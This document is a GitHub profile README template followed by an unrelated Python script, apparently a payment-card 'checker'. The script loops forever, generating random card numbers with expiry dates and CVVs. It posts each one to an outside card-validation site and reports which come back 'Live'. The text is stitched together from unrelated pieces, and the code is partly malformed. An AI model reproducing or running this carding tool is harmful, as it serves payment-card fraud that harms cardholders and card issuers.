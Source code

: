 - 👋 Hi, I’m @kk9m
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
kk9m/kk9m is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import requests
try:
	import pyfiglet,requests,os,datetime
except ModuleNotFoundError:
 os.system('pip install requests')
 os.system('pip install pyfiglet')
 os.system('pip install datetime')
 os.system('clear')

Z =  '\033[1;31m' 
F = '\033[2;32m' 
B = '\033[2;36m'
X = '\033[1;33m' 
C = '\033[2;35m'
logo = pyfiglet.figlet_format(' H S O ')
print(Z+logo)
print(F+'*'*60)
import random,time

num='1234567890'
start_num = 0


while True:
 
 us = str("".join(random.choice(num)for i in range(16)))
 ue = str("".join(random.choice(num)for i in range(3)))
 
 kk = '01','02','03','04','05','06','07','08','09','10','11','12'
 um=random.choice(kk)
 
 num='456789'
 u = str("".join(random.choice(num)for i in range(1)))
 visa = str(us+'|'+um+'|'+f'202{u}'+'|'+ue)
 
 
 url = "https://checker2.visatk.com/card/ccn1/alien07.php"

#url = 'https://checker1.visatk.com/'

 data={

'ajax': '1',
'do': 'check',
'cclist': visa,

}
 m = requests.post(url,data=data).text
 
 if 'Live' in m:
 	
 	print(F+' Live Good : ',visa)
 	
 elif 'Die' in m:
 	
 	print(X+' Die » ',visa)
 elif 'Unknown' in m:
 	print(Z+' Unknown ',visa)

else:
	print(B+' Bad ',visa)
